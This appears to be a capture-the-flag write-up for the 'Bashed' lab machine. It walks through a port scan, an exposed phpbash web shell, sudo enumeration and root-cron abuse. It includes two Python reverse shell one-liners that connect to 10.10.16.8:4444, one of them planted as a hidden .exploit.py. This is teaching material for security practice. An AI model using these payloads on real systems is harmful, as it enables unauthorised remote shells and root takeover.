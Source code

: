 1,Recon
port scan
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.25 seconds
```

Page check
![](images/Pasted%20image%2020241206063411.png)
There seems like a `phpbash` in the web-content, so let's enumerate them.

Then i successfully get the `phpbash`
`http://10.10.10.68/dev/phpbash.php`
![](images/Pasted%20image%2020241206063753.png)
And the `/etc/passwd` , I found 2 valid user `arrexel` and `scriptmanager`

By check `sudo -l`
```
Matching Defaults entries for www-data on bashed:  
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
  
User www-data may run the following commands on bashed:  
(scriptmanager : scriptmanager) NOPASSWD: ALL
```
the user `scriptmanager` would be a  user to switch and do anything.

So, firstly, we need to get the reverse shell and then switch to this user
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

Then I would directly come to `/scripts`, and I found the files
`test.py and test.txt`

So I would upload `pspy64` to help us to know what happened in the background
```
/sbin/init noprompt 
2024/12/06 04:02:01 CMD: UID=0    PID=1262   | python test.py 
2024/12/06 04:02:01 CMD: UID=0    PID=1261   | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done 
2024/12/06 04:02:01 CMD: UID=0    PID=1260   | /usr/sbin/CRON -f 
2024/12/06 04:03:01 CMD: UID=0    PID=1265   | python test.py 
2024/12/06 04:03:01 CMD: UID=0    PID=1264   | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done 
2024/12/06 04:03:01 CMD: UID=0    PID=1263   | /usr/sbin/CRON -f
```

That means, crontab would check all the python file and run it with root.

```
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.16.8\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > .exploit.py
```

So we just add the reverse shell into this directory and wait for it was worked.

Then we successfully get the root shell
```
crontab -l
* * * * * cd /scripts; for f in *.py; do python "$f"; done
```